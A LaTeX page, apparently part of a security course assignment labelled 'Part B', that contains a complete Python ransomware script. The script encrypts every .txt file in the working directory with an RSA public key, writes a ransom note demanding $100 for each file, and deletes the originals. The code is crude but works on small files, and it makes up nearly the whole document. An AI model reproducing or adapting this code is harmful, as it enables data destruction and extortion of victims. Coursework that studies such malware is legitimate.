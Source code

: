 \documentclass{article}
\begin{document}
\subsubsection*{Part B}

\begin{verbatim}
import os
import sys
from Crypto.Hash import SHA256
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1_v1_5
from Crypto.Cipher import PKCS1_OAEP

if __name__ == "__main__":
    public_key = RSA.import_key(open("e.key").read())
    count = 0

    # Read each file in the current directory that ends with .txt and encrypt it
    for file in os.listdir():
        if file.endswith(".txt"):
            # Read the file
            file_in = open(file, "rb")
            message = file_in.read()
            file_in.close()
    
            # Encrypt the file
            encryptor = PKCS1_OAEP.new(public_key)
            encrypted = encryptor.encrypt(message)
    
            # Write the encrypted file
            file_out = open(file + ".encrypted", "wb")
            file_out.write(encrypted)
            file_out.close()
    
            # Write the note
            file_out = open(file + ".note", "w")
            file_out.write("This is a ransom note. Pay $100 to get your file back.")
            file_out.close()
    
            # Write a unique identifier number to the file
            file_out = open(file + ".ID", "w")
            file_out.write(str(count))
            file_out.close()
    
            # Delete the original file
            os.remove(file)
            count += 1
\end{verbatim}

\newpage
\subsubsection*{Part C}
\end{document}
